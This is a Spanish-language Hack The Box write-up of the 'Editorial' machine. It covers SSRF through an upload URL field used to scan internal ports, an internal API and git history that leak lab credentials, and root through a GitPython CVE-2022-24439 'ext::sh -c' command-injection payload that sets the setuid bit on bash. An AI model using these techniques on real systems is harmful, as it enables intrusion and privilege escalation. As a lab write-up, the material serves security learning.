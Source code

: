 ```yaml
---
title: Editorial - Hack The Box
date: 2024-10-04
description: Maquina Editorial (Easy) de Hack The Box.
categories:
    - Writeups
    - HTB
tags:
    - Linux
    - HTB
    - CTF
    - Easy
    - Seasonal
media_subpath: /assets/img/commons/editorial/
image: editorial.png
---
```


## Escaneo

```bash
nmap -p- --open -sS -min-rate 5000 -vvv -n -Pn -oG allPorts 10.10.11.20 -oG allPorts
```

Puertos abiertos: 22 y 80

## Análisis

```bash
nmap -sCV -p22,80 -oN targeted 10.10.11.20

`22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

El puerto 80 da acceso a la web de http://editorial.htb

En la web no hay nada destacable a excepción del apartado "Publish with us" que lleva a http://editorial.htb/upload.

En upload, permite proveer libros a la web de dos formas: subiendo el fichero o a través de la url.

Al subir un fichero o facilitar una URL, devuelve la URL del fichero subido:

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 02 Oct 2024 14:52:31 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 51`

static/uploads/61089ce8-87f6-4a5f-83e6-1e21a65c3335`
```

## Explotación

Pasándole como URL la localhost y atacando los 65532 puertos se puede evaluar, viendo el tamaño del "`Content-Length`" si hay una respuesta distinta, lo que puede implicar que el puerto esté abierto y respondiendo solo a consultas internas.
A excepción del puerto 5000 con 51, todos los puertos restantes devuelven lenght 61.

Al hacer GET de la URL devuelta por el puerto 5000 se obtiene un json de parámetros de una API:

```json
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}`
```

Una consulta POST contra "/api/latest/metadata/messages/authors" devuelve una URL que al hacerle GET devuelve un JSON con credenciales:

```json
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}`
```

>Username: dev  
>Password: dev080217_devAPI!@  

El usuario tiene acceso por SSH y al conectarse se obtiene la User Flag.

## Escalada

Listando los ficheros con permisos de root:

```bash
find / -perm -4000 -user root 2>/dev/null

/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/umount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/su
```

Nada destacable.

En la carpeta home existe la carpeta `.git`
Con `git log` se ve un commit con la información:

```
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.`
```

Consultando los cambios de este commit con `git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` se extrae un usuario y contraseña de producción:

```bash
WARNING: terminal is not fully functional
Press RETURN to continue 
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest  regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
# -------------------------------
```

>Username: prod  
>Password: 080217_Producti0n_2023!@  

Accediendo a este usuario por SSH se observa que no tiene credenciales de root:
```bash
ssh prod@10.10.11.20
prod@editorial:~$ sudo su
Sorry, user prod is not allowed to execute '/usr/bin/su' as root on editorial.
```
Pero sí tiene permiso para ejecutar una aplicación en python3 con credenciales de root:
```bash
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

```bash
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py 
```

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Esta aplicación es vulnerable a RCE segun el [CVE-2022-24439](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858):

```python
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```

Por lo que se modifica bash para permitir el escalado:

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'

$ /bin/bash -p
bash-5.1# whoami
root
```

Como root se tiene acceso a la Root Flag.
